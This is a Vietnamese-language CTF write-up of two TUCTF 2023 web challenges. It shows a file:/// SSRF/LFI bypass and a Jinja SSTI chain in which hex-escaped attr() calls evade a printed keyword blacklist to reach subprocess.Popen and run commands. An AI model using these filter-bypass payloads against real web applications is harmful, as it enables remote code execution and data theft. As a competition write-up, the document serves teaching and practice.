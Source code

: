 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{{().**class**}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 

text: `**()|attr('__class__')|attr('__base__')**`

nó sẽ tương tự như

text: `().**__class__**.**__base__**`

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.
  
```python
{ { ( ).__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

( bạn xóa những kí tự thừa đi nhé vì github mình up raw lên nó bị filter shell :)
1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**


- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

  
```python
{ { ( ).__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 
```python
{{().__class__.__base__.__subclasses__().__getitem__().**__class__**.**__base__**.**__subclasses__**()('w h o a m i',sh3ll=T4ue,stdout=-1).communicate()}} 
```
Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter
```python
{ { ( )| attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')( ) } }
```
- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...
```

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**
```python
{ { ( )|attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','') } }
```
- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là
```python
{ { ().__class__.__base__.__subclasses__().__getitem__(372)('whoami',sh3ll=T4ue,stdout=-1).communicate( ) } }`
```
- Để tránh bị filter
```python
{ { ()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',sh3ll=T4ue,stdout=-1)|attr('communicate')( ) } }
```
<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag :D
